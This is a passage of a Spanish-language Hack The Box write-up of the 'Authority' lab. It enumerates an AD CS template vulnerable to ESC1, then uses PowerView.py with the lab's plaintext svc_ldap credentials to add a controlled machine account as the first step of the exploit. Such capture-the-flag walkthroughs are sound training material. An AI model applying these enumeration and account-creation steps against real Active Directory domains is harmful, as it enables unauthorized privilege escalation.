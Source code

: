 Confirmamos con `adPEAS` que el template `CorpVPN` tiene el flag `ENROLLEE_SUPPLIES_SUBJECT`, lo que permite al solicitante definir el Subject Alternative Name (SAN). Sin embargo, también verificamos que **solo las cuentas dentro del grupo `HTB\Domain Computers` tienen permisos de inscripción (`enrollment`)**.

```powershell
[?] +++++ Checking Template 'CorpVPN' +++++
[!] Template 'CorpVPN' has Flag 'ENROLLEE_SUPPLIES_SUBJECT'
[+] Identity 'HTB\Domain Computers' has enrollment rights for template 'CorpVPN'
```

En el resultado de `adPEAS`, observamos que el `MachineAccountQuota` está configurado en **10**, lo que significa que cualquier usuario autenticado puede agregar hasta 10 equipos al dominio.

Dado que previamente identificamos que **solo los Domain Computers tienen permisos de enrollment** en el template vulnerable, podemos aprovechar esta configuración para **crear una cuenta de máquina controlada por nosotros** y así explotar `ESC1`.

```powershell
[?] +++++ Checking Add-Computer Permissions +++++
[+] Filtering found identities that can add a computer object to domain 'authority.htb':
[!] The Machine Account Quota is currently set to 10
[!] Every member of group 'Authenticated Users' can add a computer to domain 'authority.htb'

distinguishedName:			CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=authority,DC=htb
objectSid:				S-1-5-11
memberOf:				CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=authority,DC=htb
					CN=Certificate Service DCOM Access,CN=Builtin,DC=authority,DC=htb
					CN=Users,CN=Builtin,DC=authority,DC=htb
```

A continuación, realizaremos el `ESC1` enfocado a las `Machine Account` que son las que disponen de permisos de `enrollment` para realizar la explotación.

Para ello, el objetivo será crear un nuevo `Computer` para poder realizar el `ESC1` con las credenciales de la cuenta de equipo del PC que creemos. A través de la herramienta de `PowerView.py` nos conectaremos mediante LDAP y crearemos un nuevo `Computer` llamado `Gzzcoo` con credenciales `Gzzcoo123`.

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adcs/esc1#esc1-linux-machine-account" %}

```bash
❯ powerview authority.htb/'svc_ldap':'lDaP_1n_th3_cle4r!'@10.10.11.222 --dc-ip 10.10.11.222
Logging directory is set to /home/kali/.powerview/logs/authority-svc_ldap-10.10.11.222
[2025-02-22 05:13:25] [Storage] Using cache directory: /home/kali/.powerview/storage/ldap_cache
[2025-02-22 05:13:25] User svc_ldap has adminCount attribute set to 1. Might be admin somewhere somehow :)
(LDAPS)-[authority.authority.htb]-[HTB\svc_ldap]
PV > Add-ADComputer
[2025-02-22 05:13:32] -ComputerName and -ComputerPass are required
(LDAPS)-[authority.authority.htb]-[HTB\svc_ldap]
PV > Add-ADComputer -ComputerName Gzzcoo -ComputerPass Gzzcoo123
[2025-02-22 05:13:49] Successfully added machine account Gzzcoo$ with password Gzzcoo123.
```
